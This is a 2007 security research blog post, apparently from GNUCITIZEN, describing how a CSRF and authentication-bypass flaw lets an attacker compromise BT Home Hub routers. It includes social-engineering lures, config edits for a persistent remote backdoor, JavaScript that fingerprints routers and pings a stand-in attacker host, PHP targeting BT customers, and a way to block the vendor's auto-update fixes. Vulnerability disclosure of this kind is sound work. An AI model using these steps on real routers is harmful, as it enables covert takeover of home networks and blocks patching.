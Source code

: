 ```yaml
---
title: BT Home Flub Pwnin The BT Home Hub (2)
author: adrian-pastor
date: Tue, 16 Oct 2007 22:02:03 GMT
template: this/views/post.jade
---
```


In this post I'll elaborate a bit more on our [demo video](http://stage6.divx.com/user/gnucitizen/video/1722388/BT-Home-Flub) previously released and what the intruder can do to remotely access the Home Hub _anytime and from anywhere_ after it's been been broken into.  You are recommended to read the [first part](/blog/bt-home-flub-pwnin-the-bt-home-hub) of this post if you haven't done so yet.

So here is the attack illustrated in the demo video. The victim user is tricked - through Gtalk - to visit a website that contains malicious code. The malicious code runs in the background and does NOT exploit any vulnerabilities on the victim's browser at all, neither does it rely on ActiveX, therefore it's not picked up by anti-spyware/antivirus software. The malicious code is a simple combination of HTML and JavaScript, which exploits two vulnerabilities on the Home Hub (note that there are other vulnerabilities we found as well):

* CSRF
* Authentication bypass bug (thanks to this the exploit works even if the user has changed the default admin password)

After the victim user visits the malicious website, he's redirected to a funny video of [Techno Viking](http://www.google.com/search?ie=UTF-8&oe=UTF-8&sourceid=navclient&gfns=1&q=techno+viking) hosted by Youtube. Thus, the victim is distracted away from the fact that his router has just been compromised. There are other things we could have done on the malicious website besides a redirect to a Youtube video. For instance, we could have simply embedded third-party content from other websites through iframes in order to distract the victim from the fact that he's been victim of an attack.

### Tricking the victim to visit the evil site

We've been asked by some non-technical users how would the intruder incite the victim to visit the malicious link. Malware criminals are experts at finding ways to attract people to their malicious websites. Well, there are plenty of examples we can give. The following are some:

* Through a chat conversation (i.e.: messenger or IRC)
* Through emails delivered in a mass fashion targeting [UK email addresses](http://mail.google.com/mail/help/intl/en-GB/googlemail.html)
* By placing the malicious link on a popular website where it's common to find user-generated content. i.e.: Youtube, Myspace, Facebook, Bebo ...
* Through a website that claims to offer free porn
* Through a website that claims to offer  free [warez](http://en.wikipedia.org/wiki/Warez)
* Black [SEO](http://en.wikipedia.org/wiki/Search_engine_optimization)
* By setting up a blog through which the audience is [involved emotionally](http://www.spamfighter.com/News_Read_Spamfighter.asp?UID=419) regarding a current issue

### Backdooring the Home Hub PERMANENTLY

Once the router has been compromised the attacker gets an email (as shown in the [demo video](http://www.youtube.com/watch?v=i4tkM3UtF1Y)) with the URL needed to access the Home Hub remotely using the "tech support" account - a.k.a. remote assistance. The attacker then logs in using the username 'tech' and a password which was chosen by her and was set when the malicious website was loaded in the victim user's browser. At this point, the intruder can do anything to the router. For instance, because remote assistance gets disabled after 20 minutes of inactivity, the intruder can do the following in order to make sure that she can come back any time to the router to tamper with it:

* Save the Home Hub config file (contains all router settings including the passwords for any services the victim is subscribed to)
* Add the following line in the config file under the `[ servmgr.ini ]` section: `ifadd name=HTTPs group=wan`
* Reload the modified config file so the new changes take place
* Configure the dynamic dns service (if the victim is not currently using it) using the web interface

At this point, the intruder can come back anytime remotely to the Home Hub, even after the remote assistance connection has timed out (happens after 20 mins of inactivity by default). The credentials she would use to login are the same one that were set when the attack took place (username 'tech' and a password of her choice). The cool thing is that although BT Broadband doesn't support static IP addresses, the intruder can simply bypass this restriction and always find the victim router's IP address thanks to it supporting serveral popular (and free) dynamic DNS services!

### Detecting a potentially vulnerable router

When preparing the exploit shown in the video, the malicious code could do either of the following before the actual exploit is submitted to the router:

* do not check if the victim user uses a vulnerable router
* perform some sort of check that concludes with a significant probability whether the victim user's router is vulnerable

The first approach is typically followed by classic worms: the payload is executed no matter what. If the router is vulnerable, then it'll be compromised, otherwise nothing would happen. From the user's end, there is no difference as everything happens in the background.

However, if the intruder wants to be stealth, he will craft the malicious webpage in such a way the exploit is only launched if the victim uses a potentially vulnerable router. This is a more elegant way to perform the attack and minimizes the chances of someone discovering the exploit and making it public.

The following are two simple techniques that can be used. The first technique simply checks if the IP address used by the BT Home Hub is serving a certain image:

    var notifyURL="http://evil.anydomain.com/bthomehubhack/notify.php";
    var imgsrc = 'http://192.168.1.254/images/head_wave.gif';
    var fingerprint_img = new Image();
    fingerprint_img.onerror = function (evt) {
        ; // can't be loaded - couldn't find a vulnerable router
    }
    // only notify attacker if potential vulnerable Thomson Speedtouch / BT Homehub router found
    fingerprint_img.onload = function (evt) {
        C=new Image();
        C.src=notifyURL;
    }

    The second technique simply checks for substrings within the [reverse DNS](http://en.wikipedia.org/wiki/Reverse_DNS_lookup) (PTR record) of the victim router. The following is an example of a reverse DNS record used by a BT Home Hub:

    host86-134-193-152.range86-134.btcentralplus.com

    In PHP we could check for the string 'btcentralplus.com' like this:

    <?php
    $ptr=gethostbyaddr($_SERVER['REMOTE_ADDR']);
    // if string "btcentralplus.com" is contained within victim's reverse lookup
    if(strstr($ptr, "btcentralplus.com")) {
       // then print exploit code
       // EVIL CSRF/AUTH BYPASS CODE GOES HERE!
    }
    ?>

    ### Preventing BT from fixing the vulnerabilities on Hubs that have been owned

    The BT Home Hub has a very neat feature called Auto-Update. The way the feature works is that the BT Home Hub connects regularly to remote servers located on `pbthdm.bt.motive.com`, which can push settings back to the Hub. There have been some concerns over this feature in the Internet community and I can see why. In essence, this feature is a backdoor which allows BT to do anything to your Home Hub remotely. Sure this is meant to be for updates that add new features and/or fix vulnerabilities. The question is, do you trust your ISP to have permanent control of your Internet gateway? I personally don't like the possibility of a disgruntled BT employee being able to tamper with my Home Hub remotely! Not to mention that this feature has [bricked](http://www.digitalspy.co.uk/forums/showthread.php?t=491560) Home Hubs in the past after customizing the configuration.

    An intruder would probably want to avoid any chance of BT disabling her backdoor after auto-updates are applied. Disabling updates can be as easy as changing the following line in the config file to point to a dummy (non-existing) URL. Note that we have NOT tested this idea, but it should work. After all, the intruder can save new changes in the config file using the tech support account.

    server config url=**https://useless-domain.foo/** username=XXXXXXXXXXXXXXXXX password=XXXXXXXXXXXXXXXXX

Perhpaps, the most effective way in which a cracker can break into BT Home Hubs in a mass fashion is by compromising the autoupdate servers. Then, from there, one could push changes back to the Hubs' config files. Imagine someone updating all BT Home Hubs in the UK with remote HTTPs enabled and accessible with a password of her choice. What a botnet would that make! Scary.

### Credits where due

_[pdp](http://www.gnucitizen.org/about/pdp) and I would like to thank Jan Fry and Vijay Thakorlal for helping us testing attacks._
